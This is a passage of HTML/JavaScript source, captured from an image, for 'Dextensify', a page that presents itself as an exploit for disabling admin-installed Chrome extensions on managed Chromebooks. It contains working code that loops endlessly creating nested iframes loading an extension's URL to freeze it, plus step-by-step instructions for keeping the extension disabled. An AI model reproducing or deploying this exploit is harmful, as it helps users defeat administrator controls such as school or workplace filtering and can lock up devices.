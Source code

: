       function button_handler(extension) {
        let cancel = !confirm("After hitting OK, there will be a 5 second delay until the extension starts being frozen. Switch to another tab immediately to prevent the entire device from locking up.");
        if (cancel) return;
        
        setTimeout(() => {
          create_iframes(extension);
        }, 5000);
      }

      function create_iframes(extension) {
        let iframes = []
        let iterations = 5;
        let public_url = extension.url;
        
        while (true) {
          let iframe = document.createElement("iframe");
          document.body.append(iframe);
          iframes.push(iframe);

          //let subframe_count = Math.max(2, 200 - iterations);
          for (let i=0; i<50; i++) {
            let subframe = document.createElement("iframe");
            subframe.src = public_url;
            subframe.style.width = subframe.style.height = "1px";
            iframe.contentDocument.body.append(subframe);
          }

          while (iframes.length > Math.max(3, 10-iterations)) {
            iframes[0].remove();
            iframes.shift();
          }

          iterations++;
        }
      }

      window.onload = main;
    </script>
  </head>
  <body>
    <div id="main_div">
      <h1 style="margin-top: 8px">Dextensify</h1>
      <p>Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage.</p>
      <h2>Instructions</h2>
      <ol>
        <li>Open chrome://extensions in a new tab. Keep this page open.</li>
        <li>Go to the settings page for the extension you want to disable.</li>
        <li>On the Dextensify page, click the "freeze extension" button. Immediately switch back to the chrome://extensions tab.</li>
        <li>Back on the chrome://extensions page, spam the "allow access to file URLs" switch for a few seconds.</li>
        <li>The extension should now be temporarily disabled. For this effect to persist, flip the "allow access to file URLs" again every few minutes, or if pages start getting blocked again.</li>
        <li>You may also need to reopen this page every once in a while to prevent an unavoidable memory leak from crashing the system.</li>
      </ol>
      <p>During this process, your Chromebook may hang momentarily. This is normal, and it should resolve itself after a few seconds.</p>
      <div id="buttons_container">
        <p><i>Detecting extensions...</i></p>
      </div>
      <br>
      <hr>
      <details>
        <summary style="margin-bottom: 8px;">